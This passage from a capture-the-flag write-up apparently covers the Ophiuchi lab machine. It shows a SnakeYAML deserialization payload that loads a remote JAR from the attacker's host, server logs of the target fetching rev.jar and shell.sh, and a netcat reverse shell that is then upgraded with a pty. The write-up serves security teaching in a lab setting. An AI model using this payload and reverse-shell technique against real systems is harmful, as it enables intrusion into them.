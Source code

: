 ```

!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.7/rev.jar"]
  ]]
]

```

There’s three requests at the Python HTTP server, two for the Jar, and then for the shell:

```
10.10.10.227 - - [15/Feb/2021 09:19:52] "GET /rev.jar HTTP/1.1" 200 -
10.10.10.227 - - [15/Feb/2021 09:19:52] "GET /rev.jar HTTP/1.1" 200 -
10.10.10.227 - - [15/Feb/2021 09:19:52] "GET /shell.sh HTTP/1.1" 200 -

```

Then there’s a shell at listening `nc`:

```

oxdf@parrot$ sudo nc -lnvp 443                  
listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.227] 37728
bash: cannot set terminal process group (730): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@ophiuchi:/$ id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

```

I’ll upgrade my shell with the standard Python trick:

```

tomcat@ophiuchi:/$ python3 -c 'import pty;pty.spawn("bash")'
python3 -c 'import pty;pty.spawn("bash")'
tomcat@ophiuchi:/$ ^Z
[1]+  Stopped                 sudo nc -lnvp 443
oxdf@parrot$ stty raw -echo ; fg
sudo nc -lnvp 443
                 reset
reset: unknown terminal type unknown
Terminal type? screen
tomcat@ophiuchi:/$ 

```

## Shell as admin

There’s one real user on the box, admin, and their home directory has `user.txt`, but I can’t read it as tomcat:

```

tomcat@ophiuchi:/home/admin$ ls -la
total 32
drwxr-xr-x 4 admin admin 4096 Jan  7 09:18 .
drwxr-xr-x 3 root  root  4096 Dec 28 00:18 ..
lrwxrwxrwx 1 root  root     9 Dec 28 00:51 .bash_history -> /dev/null
-rw-r--r-- 1 admin admin  220 Dec 28 00:18 .bash_logout
-rw-r--r-- 1 admin admin 3771 Dec 28 00:18 .bashrc
drwx------ 2 admin admin 4096 Dec 28 00:35 .cache
drwx------ 4 admin admin 4096 Jan  6 08:31 .gnupg
-rw-r--r-- 1 admin admin  807 Dec 28 00:18 .profile
-rw-r--r-- 1 admin admin    0 Jan  7 09:18 .sudo_as_admin_successful
```